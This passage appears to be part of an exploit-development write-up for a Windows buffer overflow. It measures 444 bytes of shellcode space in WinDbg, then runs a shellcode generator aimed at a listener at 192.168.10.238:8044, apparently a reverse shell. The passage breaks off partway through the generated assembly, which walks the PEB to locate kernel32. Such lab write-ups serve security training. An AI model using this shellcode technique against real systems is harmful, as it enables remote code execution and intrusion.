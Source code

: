 ![Untitled](/assets/Untitled%204.png)

By trail and error we manage to note we can increase our payload to only `0x480` which works successfully. This leaves us with `444 bytes` of shellcode space.

```python
0:006> ? 0193e670 - eip
Evaluate expression: 444 = 000001bc
```

We utilise the [shellcoder.py](http://shellcoder.py) script created by #EPI502. 

```python
┌──(zorx㉿argon)-[~]
└─$ python3 shellcoder.py -l 192.168.10.238 -p 8044 --store-shellcode                                                                  
   start:                               
            
       mov ebp, esp                    ;
       add esp, 0xfffff9f0             ;
   find_kernel32:                       
       xor ecx,ecx                     ;
       mov esi,fs:[ecx+30h]            ;
       mov esi,[esi+0Ch]               ;
       mov esi,[esi+1Ch]               ;
   next_module:                         
       mov ebx, [esi+8h]               ;
       mov edi, [esi+20h]              ;
       mov esi, [esi]                  ;
       cmp [edi+12*2], cx              ;
       jne next_module                 ;
   find_function_shorten:               
       jmp find_function_shorten_bnc   ;
   find_function_ret:                   
```